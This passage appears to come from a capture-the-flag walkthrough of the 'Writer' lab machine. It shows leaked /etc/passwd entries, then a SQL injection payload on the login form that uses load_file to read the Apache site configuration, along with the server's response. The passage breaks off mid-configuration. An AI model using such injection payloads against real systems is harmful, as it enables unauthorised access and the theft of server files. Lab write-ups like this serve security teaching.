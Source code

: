 syslog\:x\:104\:110\:\:/home/syslog\:/usr/sbin/nologin  
_apt\:x\:105\:65534\:\:/nonexistent\:/usr/sbin/nologin  
tss\:x\:106\:111\:TPM software stack,,,\:/var/lib/tpm\:/bin/false  
uuidd\:x\:107\:112\:\:/run/uuidd\:/usr/sbin/nologin  
tcpdump\:x\:108\:113\:\:/nonexistent\:/usr/sbin/nologin  
landscape\:x\:109\:115\:\:/var/lib/landscape\:/usr/sbin/nologin  
pollinate\:x\:110\:1\:\:/var/cache/pollinate\:/bin/false  
usbmux\:x\:111\:46\:usbmux daemon,,,\:/var/lib/usbmux\:/usr/sbin/nologin  
sshd\:x\:112\:65534\:\:/run/sshd\:/usr/sbin/nologin  
systemd-coredump\:x\:999\:999\:systemd Core Dumper\:/\:/usr/sbin/nologin  
kyle\:x\:1000\:1000\:Kyle Travis\:/home/kyle\:/bin/bash  
lxd\:x\:998\:100\:\:/var/snap/lxd/common/lxd\:/bin/false  
postfix\:x\:113\:118\:\:/var/spool/postfix\:/usr/sbin/nologin  
filter\:x\:997\:997\:Postfix Filters\:/var/spool/filter\:/bin/sh  
john\:x\:1001\:1001\:,,,\:/home/john\:/bin/bash  
mysql\:x\:114\:120\:MySQL Server,,,\:/nonexistent\:/bin/false
{% endhighlight %}

Getting RCE
-----------

### Source Code Analysis

Before being able to read the source code of the website, the full path of the file containing the source code must first be discovered. Seeing as the server is running apache2, the 000-default.conf file in the /etc/apache2/sites-available directory, a directory which holds configuration files for Apache virtual hosts, can be leaked to determine this information.  

Payload

{% highlight bash %}
uname='union select 1,load_file('/etc/apache2/sites-available/000-default.conf'),3,4,5,6-- -&password=a
{% endhighlight %}

  
Response

{% highlight bash %}
Welcome # Virtual host configuration for writer.htb domain  
&lt\;VirtualHost \*\:80&gt\;  
       ServerName writer.htb  
       ServerAdmin admin@writer.htb  
       WSGIScriptAlias / /var/www/writer.htb/writer.wsgi       &lt\;Directory /var/www/writer.htb&gt\;  
               Order allow,deny  
               Allow from all  
       &lt\;/Directory&gt\;  
       Alias /static /var/www/writer.htb/writer/static       &lt\;Directory /var/www/writer.htb/writer/static/&gt\;  
               Order allow,deny  
               Allow from all  
       &lt\;/Directory&gt\;  
       ErrorLog ${APACHE_LOG_DIR}/error.log  
       LogLevel warn  
       CustomLog ${APACHE_LOG_DIR}/access.log combined  
&lt\;/VirtualHost&gt\;  
  
# Virtual host configuration for dev.writer.htb subdomain  
# Will enable configuration after completing backend development  
# Listen 8080  
#&lt\;VirtualHost 127.0.0.1\:8080&gt\;  
